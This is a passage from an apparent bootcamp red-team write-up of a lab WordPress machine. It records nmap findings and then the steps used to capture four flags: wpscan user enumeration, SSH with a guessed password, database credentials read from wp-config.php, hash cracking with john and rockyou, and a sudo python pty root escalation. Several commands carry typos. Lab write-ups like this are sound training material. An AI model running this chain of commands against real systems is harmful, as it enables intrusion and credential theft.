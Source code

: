 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap ... `nmap -sV 192.168.1.110`
  ![https://github.com/shansen18/BootCamp/blob/ee4d8a4383daf6daa06e785e74d52db8662d4d84/Final_Project/Images/nmap.PNG]
```

This scan identifies the services below as potential points of entry:
- Target 1
  - 22/tcp ssh
  - 80/tcp http
  - 111/tcp rpcbind
  - 139/tcp Netbois
  - 445/tcp Microsoft-ds




The following vulnerabilities were identified on each target:
- Target 1
  - Vulnerable Word Press (wpscan user enumeration)
  - Weak user password
  - Misconfigured User Privileges leading to privilege escalation
  - Unsalted passwords


### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: `b9bbcb33ellb80be759c4e844862482d`
    - **Exploit Used**
      - WPscan was used from the attack machine to enumerate the users on the Target1 wordpress site
      - The Command use
        - `wpscan --url 192.168.1.110/wordpress/ -e u`
      - SSH'd into `192.168.1.110` using the user `Michael` guessed the weak password `Michael`
      - Navigated to /var/wwww/html/
      - Ran `nano services.html` and in the footer information found Flag1
![Flag1](https://github.com/shansen18/BootCamp/blob/main/Final_Project/Images/Flag1.PNG)

  - `flag2.txt`:`flag2{fc3fd58dcdad9ab23faca6e9a3e581c}`
    - **Exploit Used**
      - Flag2 was located while exploring `Target1` to find other potential useful files.
      - `cd ..`
      - `ls`
      - `nano flag2.txt`
![flag2](https://github.com/shansen18/BootCamp/blob/main/Final_Project/Images/Flag2.PNG)

 - `flag3.txt`:`flag3{afc01ab56b50591e7dccf93122770cd2}`
    - **Exploit Used**
      - During infiltration `wp-config.php` was found at `/var/www.html/wordpress`
      - `nano wp-config.php` and found the admin user is `root` and the password is `R@v3nSecurity`
      - `Crtl X` to exit nano.
      - `myspql --user=root --password=R@v3nSecurity -h 127.0.0.1` to enter the database
      - `showdatabases;` to view databases
      - `use wordpress;` to use the wordpress database
      - `select * from wp_posts;` to find flag3 and flag4 in wp_posts.
      - `select * from wp_users;` to find users and password hashes.
![dbusername](https://github.com/shansen18/BootCamp/blob/main/Final_Project/Images/databasepswrd.PNG)
![Flag3](https://github.com/TristenMaetzold/CySec-Final-Project/blob/d33c069ee7ca41c0fe3fb0b2cf41dcbb9ca1a639/Images/Flag3and4.PNG)

 - `flag4.txt`:`flag4{715dea6c055b9fe3337544932f2941ce}`
    - **Exploit Used**
      - Simple password and unsalted hash
        - Created a hash.txt that contained user `steven` hash `$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/` on attacking machine
        - Copied `Rockyou.txt` from `/usr/share/wordlists/rockyou.txt wp_hashes.txt` incase it is needed for another hash crack. 
        - Ran `john hash.txt --wordlist=rockyou.txt` and found that the password is `pink84`
        - Ran `-ssh steven@192.168.1.110` using pink84 as the password. 
        - Ran `sudo python -c "import pty;pty.spawn('/bin/bash')"` this gave Root privileges
        - `CD /root`
        - `ls` saw flag4.txt
        - `cat flag4.txt` to find the flag. 
        ![flag4](https://github.com/shansen18/BootCamp/blob/main/Final_Project/Images/Flag4.PNG)
